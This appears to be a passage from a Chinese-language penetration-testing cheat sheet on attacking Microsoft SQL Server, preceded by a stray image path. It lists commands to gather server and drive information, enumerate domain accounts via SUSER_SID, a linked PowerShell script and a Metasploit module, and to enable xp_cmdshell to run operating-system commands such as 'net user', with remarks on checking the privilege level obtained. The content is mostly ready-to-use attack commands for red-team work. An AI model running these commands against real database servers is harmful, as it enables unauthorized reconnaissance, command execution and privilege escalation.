 ```bash
exec xp_msver
```

获取驱动器信息

```bash
exec xp_fixeddrives

```

获取域名

```bash
SELECT DEFAULT_DOMAIN( ) as mydomain;

```

遍历域用户

```bash
先获取RID

SELECT SUSER_SID('CATE4CAFE\Domain Admins')

采用循环SQL语句遍历即可遍历出所有域用户。

#或者使用
https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Get-SqlServer-Enum-WinAccounts.psm1
```



msf有个模块可以通过注入点枚举域用户

```
use auxiliary admin mssql/mssql_enum_domain_accounts_sali
```



## 命令执行&提权

### xp_cmdshell

xp_cmdshell(SQLServer 2005之后默认禁用)

```bash
# 启用xp_cmdshell：
use master;
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#执行命令
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';




# 关闭xp_cmdshell：
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;
# 执行whoami  查看得到的权限是(如果是高权限就..., 如果是network service 权限-->就想别的办法)

```